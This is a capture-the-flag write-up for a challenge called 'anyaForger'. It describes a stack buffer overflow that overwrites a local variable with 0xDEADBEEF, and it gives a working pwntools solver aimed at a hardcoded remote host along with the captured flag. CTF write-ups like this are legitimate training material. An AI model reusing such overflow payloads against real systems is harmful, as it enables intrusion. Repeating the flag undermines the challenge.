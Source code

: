# anyaForger

> Let's see if you can get the flag.

Download the attachment [here](file/beef)

## How to Solve

First we use `Ghidra` to do static analysis, and look the main function


[Image extracted text: [Image not found]]


The main function is called `vuln` function, then we see code inside


[Image extracted text: [Image not found]]


At variable `local_30` is have 32 byte size so we need to filled them and make sure the variable `local_10` is equal to `-0x21524111`

Which is will called the `anyaForger` function and flag inside it


[Image extracted text: [Image not found]]


This the solver I use

```
from pwn import *

exe = './beef'
host, port = '139.144.184.150', 31337
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)
context.log_level = 'info'

# io = process(exe)
io = remote(host, port)

offset = b'A'*32

payload = flat([
    offset,
    -0x21524111
])

io.sendline(payload)
io.interactive()
```


[Image extracted text: [Image not found]]


And we got flag

```
BDSEC{artificial_intelligence_guides_us_to_a_better_future}
```